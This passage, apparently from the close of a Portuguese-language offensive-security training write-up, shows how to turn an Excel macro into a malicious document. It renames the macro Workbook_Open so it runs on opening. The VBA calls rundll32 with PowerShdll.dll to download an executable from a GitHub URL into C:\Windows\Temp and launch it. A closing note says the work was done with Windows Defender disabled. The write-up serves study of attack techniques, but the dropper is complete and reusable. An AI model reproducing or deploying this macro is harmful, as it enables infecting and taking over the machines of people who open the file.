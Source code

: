 Após isto, precisamos alterar o nome da macro para `Private Sub Workbook_Open()`, o `Workbook_Open()` é um nome específico que indica que a macro será executada ao abrir o arquivo. A macro ficou desta forma:

```visualbasic
Private Sub Workbook_Open()
pid = Shell("rundll32.exe PowerShdll.dll,main (New-Object System.Net.WebClient).DownloadFile('https://github.com/h41stur/dojo/blob/main/semana_04/client.exe?raw=true','C:\Windows\Temp\client.exe')", 1)
pid2 = Shell("rundll32.exe PowerShdll.dll,main  Start-Process ('C:\Windows\Temp\client.exe')", 1)
End Sub
```
Isto encerra esta task.

## Nota

> Todas as tasks envolvendo macros, só foram executadas com o Windows Defender `desativado`, pois como as macros são algo "manjado", é muito fácil serem identificadas.

Encerramos mais uma semana do Dojo!

Bons estudos.

